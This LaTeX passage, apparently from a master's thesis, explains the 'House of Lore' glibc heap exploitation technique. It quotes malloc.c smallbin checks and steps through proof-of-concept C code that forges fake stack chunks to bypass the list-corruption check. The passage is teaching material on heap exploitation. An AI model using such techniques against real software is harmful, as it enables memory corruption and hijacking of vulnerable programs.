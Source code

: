 \documentclass{masterthesis}
\newcommand*\sbs{small bins}
\newcommand*\mallocc{\lstinline{malloc}\xspace}
\begin{document}
\subsection{The House of Lore}
\label{subsect:houselore}
This attack abuses the vulnerability inside \sbs{} to modify memory in any location. If we check the \mallocc{} source code, we can see there is a check for small chunk request, so, if the requested chunk fits inside the \sbs{} range, the heap manager use it.

\begin{lstlisting}[language=c,frame=tlrb]
if (in_smallbin_range (nb))
\end{lstlisting}

In the following we have below code. \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3635}{\texttt{malloc.c}, line 3635}}

\begin{lstlisting}[language=c,frame=tlrb]
bck = victim->bk;
if (__glibc_unlikely(bck->fd != victim)) {
	 errstr = "malloc(): smallbin double linked list corrupted";
	 goto errout;
}
set_inuse_bit_at_offset(victim, nb);
bck->fd = bin;
\end{lstlisting}

AS you can see if we have control over the victim \lstinline{bck} pointer and bypass the security check, libc return our fake chunk on the next small bins allocation. In other words, we can return a chunk to any address. Now we explain it in a real sample:

\begin{lstlisting}[language=c,frame=tlrb]
 intptr_t* stack_buffer_1[4] = {0};
 intptr_t* stack_buffer_2[3] = {0};
 intptr_t *victim = malloc(0x100);
 intptr_t *victim_chunk = victim-2;
\end{lstlisting}

At first, we allocate a small chunk, then calculate the actual address of the chunk by subtracting header size from the data section address like always.

\begin{lstlisting}[language=c,frame=tlrb]
 stack_buffer_1[0] = 0;
 stack_buffer_1[1] = 0;
 stack_buffer_1[2] = victim_chunk;

 stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
 stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
\end{lstlisting}
Now we forge a fake chunk, point the \lstinline{bck} pointer of \lstinline{buffer_1} to the victim, the fwd pointer of \lstinline{buffer_1} to \lstinline{buffer_2}, also, the \lstinline{bck} pointer of \lstinline{buffer_2} to \lstinline{buffer_1}. In this way, we can bypass the \sbs{} security check.
\begin{lstlisting}[language=c,frame=tlrb]
void *p5 = malloc(1000);
free((void*)victim);
void *p2 = malloc(1200);
\end{lstlisting}
\end{document}
